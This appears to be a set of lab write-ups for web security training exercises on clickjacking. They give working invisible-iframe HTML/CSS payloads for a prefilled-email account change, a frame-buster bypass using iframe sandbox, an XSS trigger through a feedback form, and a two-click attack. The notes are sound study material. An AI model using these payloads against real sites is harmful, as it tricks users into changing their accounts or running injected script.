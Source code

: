 Basically an iframe is overlayed on top of a decoy website, and when user clicks on some button, they actually click on the website from iframe

### Lab: Clickjacking with form input data prefilled from a URL parameter
```bash
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 498px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a490087042981a781a3255e003800b1.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

Note on the website that is loaded by the iframe we have:
```bash
<input required="" type="email" name="email" value="hacker@attacker-website.com">
```
The `value` of that input will be automatically populated if the url includes `?email=hacker@attacker-website.com`

### Lab: Clickjacking with a frame buster script
An effective attacker workaround against frame busters is to use the HTML5 iframe sandbox attribute. When this is set with the allow-forms or allow-scripts values and the allow-top-navigation value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window:

Both the allow-forms and allow-scripts values permit the specified actions within the iframe but top-level navigation is disabled. This inhibits frame busting behaviors while allowing functionality within the targeted site.

```bash
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 498px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms"
src="https://0ab700f604ad875280b8bc90004a00c8.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

Pay attention to `iframe sandbox="allow-forms"`

### Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS
There's a `submit feedback` form on the website with `name`, `email`, `subject` input fields.
`name` is vulnerable to xss so we can do the following:
```bash
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 614px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe
src="https://ff.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

### Lab: Multistep clickjacking
```bash
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.0001;
        z-index: 2;
    }
   .firstClick {
		position:absolute;
		top: 497px;
        left: 50px;
		z-index: 1;
	}
   .secondClick {
		position:absolute;
        top: 300px;
        left: 210px;
		z-index: 1;
	}
</style>
<div class="firstClick"> Click me first</div>
<div class="secondClick"> Click me next</div>
<iframe src="https://0a5100320469aa4280803a59000000a3.web-security-academy.net/my-account"></iframe>
```
